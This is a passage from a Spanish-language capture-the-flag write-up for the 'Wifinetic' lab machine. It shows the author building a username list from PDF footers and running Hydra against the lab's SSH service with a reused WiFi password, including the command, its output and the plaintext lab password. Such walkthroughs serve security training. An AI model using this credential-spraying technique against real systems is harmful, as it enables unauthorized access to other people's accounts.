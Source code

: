 Los pie de página de los PDF también contienen nombres de usuario y un dominio, pero este último no nos servirá de mucho ya que no tenemos acceso a otros servicios a parte del FTP o SSH.

![Olivia](/assets/writeups/wifinetic/2.png)

![Samantha](/assets/writeups/wifinetic/3.png)

Podemos armarnos un diccionario con posibles nombres de usuario a probar contra el SSH para ver si conseguimos un usuario que reutilize la contraseña que encontramos de la red WiFi.

```bash
swood93
owalker17
netadmin
```

Usando el Hydra vemos que esta contraseña es válida para el usuario `netadmin`:

```bash
❯ hydra -L users.txt -p 'VeRyUniUqWiFIPasswrd1!' ssh://10.10.11.247
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-21 13:49:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://10.10.11.247:22/
[22][ssh] host: 10.10.11.247   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-21 13:49:29

```

Metiéndonos como este usuario al sistema, vemos que tiene la flag en su directorio personal por lo que podemos tomarla.
